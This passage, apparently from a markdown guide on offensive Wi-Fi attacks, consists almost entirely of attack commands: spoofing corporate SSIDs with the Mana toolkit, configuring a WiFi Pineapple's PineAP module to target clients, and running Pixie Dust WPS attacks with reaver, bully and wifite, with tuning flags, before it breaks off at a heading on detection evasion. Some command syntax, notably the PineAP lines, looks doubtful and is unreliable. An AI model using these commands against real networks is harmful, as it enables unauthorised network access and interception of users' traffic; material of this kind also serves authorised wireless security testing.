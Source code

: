 **Targeting Specific Clients:**
```bash
# Create a configuration file with SSIDs to spoof
echo "Corporate_Wifi" > ap.lst
echo "Staff_Network" >> ap.lst
echo "Guest_Wifi" >> ap.lst

# Start Mana with targeted SSIDs
sudo mana-toolkit --target-ssids ap.lst
```

### PineAP Module with WiFi Pineapple

```bash
# Using WiFi Pineapple web interface
# Navigate to PineAP module
# Enable Dogma mode
# Set high beacon rate (100ms)
# Configure client targeting
```

**Command Line PineAP Configuration:**
```bash
ssh root@172.16.42.1

# Configure PineAP settings
pineap /etc/pineapple/pineap.conf -e true -d true -b true -l 100 -r 100

# Start targeted client attacks
pineap_client_targeting -a -s "Corporate_WiFi"
```

### Pixie Dust Attacks on WPS

```bash
# Run Pixie Dust attack with Reaver
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -K 1 -vv

# Using Bully for Pixie Dust
sudo bully -b 00:11:22:33:44:55 -c 6 -d -v 3 wlan0mon

# Automated approach with Wifite
sudo wifite --wps --pixie
```

**Optimizing Pixie Dust Attacks:**
```bash
# More aggressive timeout settings
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -K 1 -t 5 -d 0 -vv

# With specific WPS version targeting
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -K 1 --pin-generation=1 -vv
```

## Defensive Countermeasures and Detection Evasion

